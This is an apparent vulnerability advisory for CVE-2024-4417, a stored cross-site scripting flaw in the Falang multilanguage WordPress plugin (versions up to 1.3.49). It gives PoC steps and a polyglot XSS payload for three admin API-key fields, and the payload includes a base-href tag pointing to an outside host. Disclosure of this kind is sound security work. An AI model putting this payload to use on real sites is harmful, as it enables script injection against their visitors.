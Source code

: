 ```yaml
---
layout: page
title: CVE-2024-4417
subtitle: Falang multilanguage for WordPress <= 1.3.49 - Authenticated (Administrator+) Stored Cross-Site Scripting
---
```

## Description
The Falang multilanguage for WordPress plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.3.49 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.3.49

## PoC :
```
- Go To Falang/Settings
- Put this payload on field "Google translate API Key","Microsoft Azure API Key","Lingvanex API Key"
```
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
```
- Update settings
```

## Reference
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3082466%40falang%2Ftrunk&old=3059173%40falang%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4417
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/falang/falang-multilanguage-for-wordpress-1349-authenticated-administrator-stored-cross-site-scripting





